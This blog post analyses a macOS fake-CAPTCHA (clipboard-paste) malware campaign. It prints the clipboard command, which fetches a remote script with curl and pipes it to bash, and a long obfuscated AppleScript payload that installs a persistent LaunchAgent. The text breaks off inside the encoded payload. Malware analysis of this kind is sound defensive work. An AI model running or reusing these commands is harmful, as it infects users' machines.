




+++
title = "Dissecting the Clipboard: Technical Analysis of Fake CAPTCHA (macOS)"
date = 2026-10-22
draft = false
author = "Spandan Pokhrel"
description = "A technical analysis of a fake CAPTCHA campaign targeting macOS users through clipboard injection, Terminal commands, obfuscated AppleScript, and a Polygon-based payload delivery chain."

tags = [
  "Malware Analysis"
]

categories = [
  "Malware Analysis"
]

[cover]
image = "images/thumbnail.png"
alt = "Dissecting the Clipboard: Technical Analysis of Fake CAPTCHA (macOS)"
caption = "Technical Analysis of Fake CAPTCHA (generated using Gemini)"
relative = true
+++

A few days ago, I encountered a fake CAPTCHA again. I don't have a screenshot because I didn't take one when the [site](https://shield.crypsend.click/idcheck/harborid.html) was still available, but hey, I did have the malware shell payload copied to my clipboard. So, we'll go with its analysis.

So, this all comes down to a fake CAPTCHA page, where there is basically some injected JavaScript that copies something into your clipboard when the `load` event fires. For example:
```js
window.addEventListener("load", async()=>{
    await navigator.clipboard.writeText("hello")
})
```

The CAPTCHA then asks you to press `Win + R` followed by `Ctrl + V` on Windows, or open Terminal and press `⌘ + V` on macOS, and paste the content there. This content was silently copied to your clipboard.

In my case, the copied content was:
```shell
bash <<< $(echo "Y3VybCAtcyAnaHR0cHM6Ly83dWxrLmlydmluYXVydXMuZml0L2NsZWFyLWNhY2hlLnNoJyB8IGJhc2g=" | base64 -d)
```

Since it's base64 encoded for obfuscation, the decoded version was:
```shell
bash <<< $(echo "curl -s 'https://7ulk.irvinaurus.fit/clear-cache.sh' | bash")
```

It's pretty straightforward: it fetches `clear-cache.sh` and passes it directly to `bash` to run it. My first step was therefore to inspect the script. However,



A `403 Forbidden`. A very reasonable hypothesis here is that the server is looking at the `User-Agent`. I switched Postman's default user-agent header to `curl/8.7.1`, and:

> This is a technique for hiding the malware. Because the payload is retrieved with `curl`, the server appears to serve its contents only to requests with a matching user-agent header.

The server responded back with:
```shell
osascript -e "$(echo "" | base64 -d)"
```

So, it now piped with `osascript`, which is a command-line utility built into macOS to execute AppleScrip/JAX. Example, if you run:
```shell
osascript -e 'tell application "Google Chrome" to make window with properties {mode:"incognito"}'
```

> It'll open Google Chrome with an incognito tab. 

So here too, the malware script is trying to run something via `osascript`. The script is again base64 encoded (`base64 -d` at the end), so decoding the script returns:

```shell
set _qA02PopR to (204 + 938) * 9
set _A9kOSIGy to (185 + 53) * 8
set __yZkznfx to "bUeSuepwDXElhrXOiQpE"
set __C95wtjC3uW to "hrGkjPYPLLDTU8zQI"
property _H6kmom5 : "u4YwMUIU5"
set __tukAsKzUSbr to 55212
property __MFP4nUb5M : "YleA2Mt6rA"
do shell script (((((((((string id {10, 109, 107, 100, 105, 114, 32, 45, 112, 32, 34, 36, 72, 79, 77, 69, 47, 76, 105, 98, 114, 97, 114, 121, 47, 76, 97, 117, 110, 99, 104, 65, 103, 101}) & (string id {110, 116, 115, 34, 59, 10, 99, 97, 116, 32, 62, 32, 34, 36, 72, 79, 77, 69, 47, 76, 105, 98, 114, 97, 114, 121, 47, 76, 97, 117, 110, 99, 104, 65, 103, 101, 110, 116})) & ((string id {115, 47, 99, 111, 109, 46, 65, 112, 112, 108, 101, 46, 100, 100, 106, 110, 109, 117, 121, 109, 111, 100, 122, 106, 107, 121, 111, 118, 46, 112, 108, 105, 115, 116, 34, 32, 60, 60, 69, 78, 68, 95, 80, 76, 73, 83, 84, 10, 60, 63, 120, 109, 108, 32, 118, 101}) & (string id {114, 115, 105, 111, 110, 61, 34, 49, 46, 48, 34, 32, 101, 110, 99, 111, 100, 105, 110, 103, 61, 34, 85, 84, 70, 45, 56, 34, 63, 62, 10, 60, 33, 68, 79, 67, 84, 89, 80, 69, 32, 112}))) & (((string id {108, 105, 115, 116, 32, 80, 85, 66, 76, 73, 67, 32, 34, 45, 47, 47, 65, 112, 112, 108, 101, 32, 67, 111, 109, 112, 117, 116, 101, 114, 47, 47, 68, 84, 68, 32, 80, 76, 73, 83, 84, 32, 49, 46, 48, 47, 47, 69, 78, 34, 32, 34, 104}) & (string id {116, 116, 112, 58, 47, 47, 119, 119, 119, 46, 97, 112, 112, 108, 101, 46, 99})) & ((string id {111, 109, 47, 68, 84, 68, 115, 47, 80, 114, 111, 112, 101, 114, 116, 121, 76, 105, 115, 116, 45, 49, 46, 48, 46, 100, 116, 100, 34, 62, 10, 60, 112, 108, 105, 115, 116, 32, 118}) & (string id {101, 114, 115, 105, 111, 110, 61, 34, 49, 46, 48, 34, 62, 10, 32, 32, 60, 100, 105, 99})))) & ((((string id {116, 62, 10, 32, 32, 32, 32, 60, 107, 101, 121, 62, 76, 97, 98, 101, 108, 60, 47, 107, 101, 121, 62, 10, 32, 32, 32, 32, 60, 115, 116, 114, 105, 110, 103, 62, 99, 111, 109}) & (string id {46, 65, 112, 112, 108, 101, 46, 100, 100, 106, 110, 109, 117, 121, 109, 111, 100, 122, 106, 107, 121, 111, 118, 60, 47, 115, 116, 114, 105, 110, 103, 62, 10, 32, 32})) & ((string id {32, 32, 60, 107, 101, 121, 62, 75, 101, 101, 112, 65, 108, 105, 118, 101, 60, 47, 107, 101, 121, 62, 10, 32, 32, 32, 32, 60, 116, 114, 117, 101, 47, 62, 10, 32, 32, 32, 32, 60}) & (string id {107, 101, 121, 62, 82, 117, 110, 65, 116, 76, 111, 97, 100, 60, 47, 107, 101, 121, 62, 10, 32, 32, 32, 32, 60, 116, 114, 117, 101, 47, 62, 10, 32, 32, 32}))) & (((string id {32, 60, 107, 101, 121, 62, 80, 114, 111, 103, 114, 97, 109, 65, 114, 103, 117, 109, 101, 110, 116, 115, 60, 47, 107, 101, 121, 62, 10, 32, 32, 32, 32, 60, 97, 114, 114}) & (string id {97, 121, 62, 10, 32, 32, 32, 32, 32, 32, 32, 32, 60, 115, 116, 114, 105, 110, 103, 62, 47, 98, 105, 110, 47, 98, 97})) & ((string id {115, 104, 60, 47, 115, 116, 114, 105, 110, 103, 62, 10, 32, 32, 32, 32, 32, 32, 32, 32, 60, 115, 116, 114, 105, 110, 103, 62, 45, 99, 60, 47, 115, 116, 114, 105, 110, 103, 62, 10, 32, 32, 32, 32, 32, 32, 32, 32, 60, 115, 116, 114, 105, 110, 103, 62, 101, 99, 104, 111, 32, 39, 99}) & (string id {50, 86, 48, 73, 70, 57, 102, 100, 85, 120, 121, 83, 106, 70, 105, 83, 106, 100, 105, 99, 109, 56, 103, 100, 71, 56, 103, 73, 107, 112, 51, 84, 72, 108, 115, 77, 71, 100, 82, 85, 67, 73, 75, 99, 50}))))) & (((("V0IF9fSXZFWm9MOSB0byAoODAz" & "ICsgMjQyKSAqIDMKcHJvcGVydHkgX1") & ((string id {57, 117, 90, 107, 90, 84, 86, 110, 108, 79, 84, 72, 85, 103, 79, 105, 65, 105, 97, 70, 78, 121, 99, 69, 120, 87, 82, 70, 66}) & "FRkg2WU1hajhGTEU")) & (("iCnNldCBfcjhrZXJVMmogdG8gODc4My42NDE5CnNldCBfX3ozSGtqb" & (string id {48, 120, 83, 98, 105, 66, 48, 98, 121, 65, 105, 90, 68, 107, 49, 99, 87, 86, 107, 78, 71, 104, 90, 84, 86, 69, 122, 78, 51, 78, 70, 85, 72, 104, 75, 100, 67, 73, 75, 99, 50, 86, 48, 73, 70, 57, 49, 101, 72, 74, 69, 77})) & ((string id {51, 70, 104, 82, 49, 73, 103, 100, 71, 56, 103, 75, 68, 81, 122, 78, 67, 65, 114, 73, 68, 103, 51, 75, 83, 65, 113, 73, 68, 77, 75, 99, 50, 86, 48, 73, 70, 57, 121, 86, 86, 66, 84, 83, 87, 120, 105, 82, 105, 66, 48, 98, 121, 65}) & (string id {48, 78, 106, 89, 120, 76, 106, 89, 50, 77, 106, 103, 75, 99, 50, 86, 48, 73, 70, 57, 102, 90, 109, 115, 122, 82, 70, 82, 122, 82, 50, 89, 103, 100, 71, 56, 103, 101, 121, 103, 111})))) & ((((string id {75, 67, 103, 111, 81, 86, 78, 68, 83, 85, 107, 103, 89, 50, 104, 104, 99}) & (string id {109, 70, 106, 100, 71, 86, 121, 73, 68, 69, 120, 77, 105, 107, 103, 74, 105, 65, 111, 81, 86, 78, 68, 83, 85, 107, 103, 89, 50, 104, 104, 99, 109, 70})) & ("jdGVyIDExMSkpICYgKChBU0NJSSBjaGFyYWN0ZXIgMTA4KSAmIC" & "hBU0NJSSBjaGFyYWN0ZXIgMTIxKSkpICYgK")) & (((string id {67, 103, 105, 90, 121, 73, 103, 74, 105, 65, 111, 89, 50, 104, 104, 99, 109, 70, 106, 100, 71, 86, 121, 73, 71, 108, 107, 73, 68, 69, 120, 77, 83, 107, 112, 73, 67, 89, 103, 75, 67, 74, 117, 76, 105, 73, 103, 74}) & (string id {105, 65, 111, 81, 86, 78, 68, 83, 85, 107, 103, 89, 50, 104, 104, 99, 109, 70, 106, 100, 71, 86, 121, 73, 68, 69, 119, 77, 67, 107, 112, 75, 83, 107, 103, 74, 105, 65, 111, 75, 67, 103, 111, 81, 86, 78, 68, 83, 85, 107, 103})) & ((string id {89, 50, 104, 104, 99, 109, 70, 106, 100, 71, 86, 121, 73, 68, 69, 120, 78, 67, 107, 103, 74, 105, 65, 111, 81, 86, 78, 68, 83, 85, 107, 103, 89, 50, 104, 104, 99, 109, 70, 106, 100, 71, 86, 121, 73, 68, 69, 120, 77, 105, 107, 112, 73, 67, 89, 103, 75, 67, 104, 106, 97, 71}) & "FyYWN0ZXIgaWQgOTkpICYgKGNoYXJhY3RlciBpZCA0NikpKSAmICgoKEFTQ0l"))))) & ((((((string id {74, 73, 71, 78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 65, 120, 77, 84, 69, 112, 73, 67, 89, 103, 75, 71, 78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 66, 112, 90, 67, 65, 120}) & (string id {77, 84, 81, 112, 75, 83, 65, 109, 73, 67, 104, 66, 85, 48, 78, 74, 83, 83, 66, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 77, 84, 65, 122, 75, 83, 107, 112, 75, 83, 119, 103, 75, 67, 103, 111, 75, 67, 103})) & ((string id {105, 99, 71, 56, 105, 73, 67, 89, 103, 75, 69, 70, 84, 81, 48, 108, 74, 73, 71, 78, 111, 89, 88, 74, 104, 89, 51}) & "RlciAxMDgpKSAmICgoY2hhcmFjdGVyIGlkIDEyMSkg")) & (("JiAoQVNDSUkgY2hhcmFjdGVyI" & "DEwMykpKSAmICgoK") & ((string id {71, 78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 66, 112, 90, 67, 65, 120, 77, 84, 69, 112, 73, 67, 89, 103, 75, 71, 78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 66, 112, 90, 67, 65, 120, 77, 84, 65, 112, 75, 83, 65, 109, 73}) & (string id {67, 103, 111, 89, 50, 104, 104, 99, 109, 70, 106, 100, 71, 86, 121, 73, 71, 108, 107, 73, 68, 81, 50, 75, 83, 65, 109, 73, 67, 104, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 97, 87, 81, 103, 77, 84, 69, 121, 75, 83, 107, 112, 75})))) & ((("SAmICgoKChjaGFyYWN0ZX" & (string id {73, 103, 97, 87, 81, 103, 77, 84, 69, 51, 75, 83, 65, 109, 73, 67, 104, 66, 85, 48, 78, 74, 83, 83, 66, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73})) & ((string id {103, 79, 84, 103, 112, 75, 83, 65, 109, 73, 67, 103, 111, 81, 86, 78, 68, 83}) & (string id {85, 107, 103, 89, 50, 104, 104, 99, 109, 70, 106, 100, 71, 86, 121, 73, 68, 69, 119, 79, 67, 107, 103, 74, 105, 65, 111, 81, 86, 78, 68, 83, 85, 107, 103, 89}))) & (((string id {50, 104, 104, 99, 109, 70, 106, 100, 71, 86, 121, 73, 68, 69, 119, 78, 83, 107, 112, 75, 83, 65, 109, 73, 67, 103, 111, 75, 69, 70, 84, 81, 48, 108, 74, 73, 71, 78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 65, 53, 79, 83}) & (string id {107, 103, 74, 105, 65, 111, 81, 86, 78, 68, 83, 85, 107, 103, 89, 50, 104})) & ((string id {104, 99, 109, 70, 106, 100, 71, 86, 121, 73, 68, 69, 120, 77, 67, 107, 112, 73, 67, 89, 103, 75, 67, 104, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 97, 87, 81, 103, 77, 84, 69, 120, 75, 83, 65, 109, 73, 67, 104, 106, 97, 71, 70}) & "yYWN0ZXIgaWQgMTAwKSkpKSkgJiAoKChjaGFyYWN0ZXIgaWQgMT")))) & (((((string id {65, 120, 75, 83, 65, 109, 73, 67, 73, 117, 89, 121, 73, 112, 73, 67, 89, 103, 75, 67, 104, 66, 85, 48, 78, 74, 83, 83, 66}) & (string id {106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 77, 84, 69, 120, 75, 83, 65, 109, 73, 67, 104, 66, 85, 48, 78, 74, 83, 83, 66, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 77, 84, 65, 53, 75, 83, 107, 112, 75, 83, 119, 103, 75, 67, 103, 111, 75})) & ((string id {67, 103, 105, 99, 71, 56, 105, 73, 67, 89, 103, 75, 71, 78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 66, 112, 90, 67, 65, 120, 77, 68, 103, 112, 75, 83, 65, 109, 73, 67, 103, 111, 81}) & "VNDSUkgY2hhcmFjdGVyIDEyMSkgJiAoQVNDSUkgY2hhcmFjdGVyIDEwMykpKS")) & (((string id {65, 109, 73, 67, 103, 111, 75, 69, 70, 84, 81, 48, 108, 74, 73, 71, 78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 65, 120, 77, 84, 69, 112, 73, 67, 89, 103, 75, 69, 70, 84, 81, 48, 108, 74, 73, 71, 78, 111, 89, 88, 74, 104, 89, 51, 82}) & "lciAxMTApKSAmICgoQVNDSUkgY2hhcmFjdGVyIDQ1KSAmICJtYSIpKSkgJi") & ((string id {65, 111, 75, 67, 103, 105, 97, 87, 52, 105, 73, 67, 89, 103, 73, 109, 52, 105, 75, 83, 65, 109, 73, 67, 103, 105, 90, 88, 81, 105, 73, 67, 89, 103, 73, 105, 52, 105, 75, 83, 107, 103, 74, 105, 65, 111, 75}) & (string id {67, 104, 66, 85, 48, 78, 74, 83, 83, 66, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 77, 84, 65, 122, 75, 83, 65, 109, 73, 67, 104, 106, 97, 71})))) & ((((string id {70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 97, 87, 81, 103, 79, 84, 99, 112, 75, 83, 65, 109, 73, 67, 103}) & "oQVNDSUkgY2hhcmFjdGVyIDExNikgJiAoQVNDSUk") & ((string id {103, 89, 50, 104, 104, 99, 109, 70, 106, 100, 71, 86, 121, 73, 68, 69, 119, 77, 83, 107, 112, 75, 83, 107, 112, 73, 67, 89, 103, 75, 67, 103, 111, 75, 67, 104, 66, 85, 48, 78}) & (string id {74, 83, 83, 66, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 77, 84, 69, 53, 75, 83, 65, 109, 73, 67, 74, 104, 73, 105, 107, 103, 74, 105, 65, 111, 75, 71, 78, 111, 89, 88, 74}))) & (((string id {104, 89, 51, 82, 108, 99, 105, 66, 112, 90, 67, 65, 120, 77, 106, 69, 112, 73, 67, 89, 103, 75, 71, 78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 66, 112, 90, 67, 65, 48, 78, 105, 107, 112, 75, 83, 65, 109, 73, 67, 103, 111, 75, 69, 70, 84, 81, 48, 108, 74, 73, 71, 78}) & (string id {111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 65, 120, 77, 84, 89, 112, 73, 67, 89, 103, 75, 69, 70, 84, 81, 48, 108})) & ("JIGNoYXJhY3RlciA5NykpICYgKChjaGFyYWN0ZX" & (string id {73, 103, 97, 87, 81, 103, 77, 84, 69, 50, 75, 83, 65, 109, 73, 67, 104}))))))) & (((((("BU0NJSSBjaGFyYWN" & (string id {48, 90, 88, 73, 103, 77, 84, 69, 51, 75, 83, 107, 112, 75, 83, 65, 109, 73, 67, 103, 111, 75, 71, 78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 66, 112, 90, 67, 65, 120, 77, 68, 107, 112, 73, 67, 89})) & ((string id {103, 75, 71, 78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 66, 112, 90, 67, 65, 48, 78, 105, 107, 112, 73, 67, 89, 103, 75, 67, 104, 66, 85, 48, 78, 74, 83}) & (string id {83, 66, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 77, 84, 65, 49, 75, 83, 65, 109, 73, 67, 104, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 97, 87, 81, 103, 77, 84, 69, 120, 75, 83, 107, 112}))) & (("KSksIChzdHJpbmcgaWQgezExNiwgMTAxLCAxMTAsIDE" & (string id {119, 77, 67, 119, 103, 77, 84, 65, 120, 76, 67, 65, 120, 77, 84, 81, 115, 73, 68, 69, 119, 79, 67, 119, 103, 77, 84, 73, 120, 76, 67, 65, 48, 78, 105, 119, 103, 77, 84, 69, 48, 76, 67, 65, 120, 77, 84, 73, 115, 73, 68})) & ((string id {107, 53, 76, 67, 65, 48, 78, 105, 119, 103, 77, 84, 69, 121, 76, 67, 65, 120, 77, 84, 69, 115, 73, 68, 69, 119, 79, 67, 119, 103, 77, 84, 73, 120, 76, 67, 65, 120, 77, 68, 77, 115, 73, 68, 69, 120, 77, 83, 119, 103, 77, 84, 69, 119, 76, 67, 65, 48, 78, 105, 119, 103, 79, 84}) & (string id {107, 115, 73, 68, 69, 120, 77, 83, 119, 103, 77, 84, 65, 53, 76, 67, 65, 120, 77, 68, 107, 115, 73, 68, 69, 120})))) & ((((string id {78, 121, 119, 103, 77, 84, 69, 119, 76, 67, 65, 120, 77, 68, 85, 115, 73, 68, 69, 120, 78, 105, 119, 103, 77, 84, 73, 120, 102, 83, 108}) & (string id {57, 67, 110, 78, 108, 100, 67, 66, 102, 88, 50, 49, 109, 81, 122, 90, 68, 101, 88, 74, 66, 73, 72, 82, 118, 73, 67, 103})) & ((string id {111, 75, 72, 78, 48, 99, 109, 108, 117, 90, 121, 66, 112, 90, 67, 66, 55, 77, 84, 73, 122, 76, 67, 65, 122, 78, 67, 119, 103, 77, 84, 65, 50, 76, 67, 65}) & "xMTUsIDExMSwgMTEwLC")) & (((string id {65, 120, 77, 84, 81, 115, 73, 68, 69, 120, 77, 105, 119, 103, 79, 84, 107, 115, 73, 68, 77, 48}) & (string id {76, 67, 65, 49, 79, 67, 119, 103, 77, 122, 81, 115, 73, 68, 85, 119, 76, 67, 65, 48, 78, 105, 119, 103, 78})) & ((string id {68, 103, 115, 73, 68, 77, 48, 76, 67, 65, 48, 78, 67, 119, 103, 77, 122, 81, 115, 73, 68, 69, 119, 79, 83, 119, 103, 77, 84, 65, 120, 76, 67, 65, 120, 77, 84, 89, 115, 73, 68, 69, 119, 78, 72, 48, 112, 73, 67, 89, 103, 75, 72, 78, 48, 99, 109, 108, 117, 90, 121, 66, 112, 90}) & (string id {67, 66, 55, 77, 84, 69, 120, 76, 67, 65, 120, 77, 68, 65, 115, 73, 68, 77, 48, 76, 67}))))) & (((("A1OCwgMzQsIDEwMSwgMTE2LCAxMDQsIDk1LCA5OSwgOTcs" & (string id {73, 68, 69, 119, 79, 67, 119, 103, 77, 84, 65, 52, 76, 67, 65, 122, 78, 67, 119, 103, 78, 68, 81, 115, 73, 68, 77, 48})) & ("LCAxMTIsIDk3LCAxMTQ" & (string id {115, 73, 68, 107, 51, 76, 67, 65, 120, 77, 68, 107, 115, 73, 68, 69, 120, 78, 83, 119, 103, 77, 122, 81, 115, 73, 68, 85, 52, 76, 67, 65}))) & (((string id {53, 77, 83, 119, 103, 77, 84, 73, 122, 76, 67, 65, 122, 78, 67, 119, 103, 77, 84, 69, 50, 76, 67, 65, 120, 77, 84, 69, 115, 73, 68, 77, 48, 76, 67, 65, 49, 79, 67, 119, 103, 77, 122, 81, 115, 73, 68, 81, 52, 76}) & (string id {67, 65, 120, 77, 106, 65, 115, 73, 68, 89, 49, 76, 67, 65, 49, 77, 83, 119, 103, 79, 84, 99, 115})) & ("IDU0LCA0OCwgNTF9KSkg" & (string id {74, 105, 65, 111, 75, 72, 78, 48, 99, 109, 108, 117, 90, 121, 66, 112, 90, 67, 66, 55, 78, 122, 65, 115, 73, 68, 85, 50, 76, 67, 65, 53, 78, 121, 119, 103})))) & ((((string id {78, 84, 73, 115, 73, 68, 85, 122, 76, 67, 65, 49, 77, 105, 119, 103, 79, 84, 99}) & "sIDU3LCA5OSwgNTcsIDQ4LCA1MywgOTgsIDUyLCA5OSwgNTMsI") & ((string id {68, 85, 49, 76, 67, 65, 49, 78, 121, 119, 103, 78, 106, 89, 115, 73, 68, 107, 52, 76, 67, 65, 49, 78, 83, 119, 103, 78, 84, 65, 115, 73, 68, 85, 48, 76, 67, 65, 49, 77, 67, 119, 103, 78, 84, 89, 115}) & "IDcwLCA1NSwgNjcsIDQ5LCA1MywgNjcsIDUwLCA2NX")) & (((string id {48, 112, 73, 67, 89, 103, 75, 72, 78, 48, 99, 109, 108, 117, 90, 121, 66, 112, 90, 67, 66, 55, 78, 68, 103}) & "sIDM0LCA0NCwgMzQsIDEwMCwgOTcsIDExNiwg") & ((string id {79, 84, 99, 115, 73, 68, 77, 48, 76, 67, 65, 49, 79, 67, 119, 103, 77, 122, 81, 115, 73, 68, 81, 52, 76, 67, 65, 120, 77, 106, 65, 115, 73, 68, 85, 119, 76, 67, 65, 49, 78}) & (string id {67, 119, 103, 78, 84, 89, 115, 73, 68, 85, 48, 76, 67, 65, 120, 77, 68, 69, 115, 73, 68, 107, 53, 76, 67, 65, 120, 77, 68, 69, 115, 73, 68})))))) & ((((((string id {107, 51, 76, 67, 65, 122, 78, 67, 119, 103, 77, 84, 73, 49, 76, 67, 65, 48, 78}) & (string id {67, 119, 103, 77, 122, 81, 115, 73, 68, 69, 119, 79, 67, 119, 103, 79, 84, 99, 115, 73})) & ("DExNiwgMTAxLCAxMTUsIDExNiwgMzQsI" & "DkzLCA0NCwgMzQsIDEwNSwgMTAwLCAzNCwgNTgsIDQ5LCAxMjV9KSkpCgpzZXQ")) & (((string id {103, 88, 49, 57, 119, 99, 106, 90, 120, 86, 122, 108, 89, 82, 108, 85, 103, 100, 71, 56, 103, 75, 67, 103, 111, 75, 67, 103, 111, 81}) & (string id {86, 78, 68, 83, 85, 107, 103, 89, 50, 104, 104, 99, 109, 70, 106, 100, 71, 86, 121})) & ("IDEwMSkgJiAoQVNDSUkgY2hhcm" & (string id {70, 106, 100, 71, 86, 121, 73, 68, 85, 51, 75, 83, 107, 103, 74, 105, 65, 111, 73, 106, 69, 105, 73, 67, 89, 103, 75, 69, 70, 84, 81, 48, 108, 74, 73, 71, 78})))) & ((((string id {111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 65, 49, 78, 105, 107, 112, 75, 83, 65, 109, 73, 67, 103, 111, 75, 69, 70, 84, 81}) & "0lJIGNoYXJhY3RlciA1MCkgJiAiNSIpICYgKChBU0NJSSBjaGFyYWN0ZX") & ((string id {73, 103, 79, 84, 99, 112, 73, 67, 89, 103, 73, 106, 103, 105, 75, 83, 107, 112, 73, 67, 89, 103, 75, 67}) & (string id {103, 111, 73, 106, 77, 105, 73, 67, 89, 103, 75, 71, 78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 66, 112, 90, 67, 65, 53, 79, 83, 107, 112, 73, 67, 89, 103, 75, 67, 104, 66, 85, 48, 78, 74, 83, 83, 66, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90}))) & (((string id {88, 73, 103, 78, 84, 73, 112, 73, 67, 89, 103, 73, 109, 73, 105, 75, 83, 107, 103, 74, 105, 65, 111, 75, 67, 74, 105, 73, 105, 65, 109, 73, 67, 73, 50, 73, 105, 107, 103, 74, 105, 65, 111, 73, 106, 81, 120, 78, 83, 73, 103}) & (string id {74, 105, 65, 111, 89, 50, 104, 104, 99, 109, 70, 106, 100, 71, 86, 121, 73, 71, 108, 107, 73, 68, 81, 53, 75, 83, 107, 112, 75, 83, 107, 103, 74})) & ("iAoKCgoKGNoYXJhY3RlciBpZCA0OCkgJiAiMSIpICYgKChja" & (string id {71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 97, 87, 81, 103, 79, 84, 107, 112, 73, 67, 89, 103, 75, 69, 70, 84, 81, 48, 108, 74, 73, 71, 78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 65, 120, 77, 68, 65, 112, 75, 83, 107, 103, 74, 